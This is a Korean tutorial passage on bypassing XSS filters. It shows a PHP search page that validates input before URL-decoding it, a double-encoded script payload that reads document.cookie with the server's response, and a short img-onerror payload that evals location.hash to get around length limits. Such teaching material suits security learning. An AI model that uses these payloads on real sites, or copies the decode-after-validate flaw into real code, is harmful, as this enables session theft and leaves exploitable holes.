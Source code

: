1,2편을 보고오시면 이해가 잘됩니다

![아아아](https://kr.object.ncloudstorage.com/dreamhack-content/page/d93ebd8d44183538e008843f2b814271ccc49795238660d115d82b335312954d.jpg)
# 잘못된 전처리
이번엔 디코딩등의 전처리 작업을 입력검증보다 늦게 수행할때 고려해볼 수 있는 우회방법이다.

예를들어
``` PHP
<?php
$query = $_GET["query"];
if (stripos($query, "<script>") !== FALSE) {
    header("HTTP/1.1 403 Forbidden");
    die("XSS attempt detected: " . htmlspecialchars($query, ENT_QUOTES|ENT_HTML5, "UTF-8"));
}
...
$searchQuery = urldecode($_GET["query"]);
?>
<h1>Search results for: <?php echo $searchQuery; ?></h1>
```
PHP 코드가 이렇게 작성되었다면 %253C 를 입력하여 입력검증후 %3c 가되어 결과적으로 < 가 되게된다.
이를 응용하면
``` JS
OST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
-----
HTTP/1.1 200 OK
<h1>Search results for: <script>alert(document.cookie)</script></h1>
```
이렇게 된당
# 길이제한
아예 코드길이를 제한하는 경우도 있는데 이러한 경우 location.hash를 이용해 우회할 수 있다. 코드를 보며 설명하자면
``` 
https://example.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie);
```
먼저 URL에 이런식으로 넣으면 HASH함수의 결과로 onerror="alert(document.cookie);"가 되어 우회할 수 있게된다.
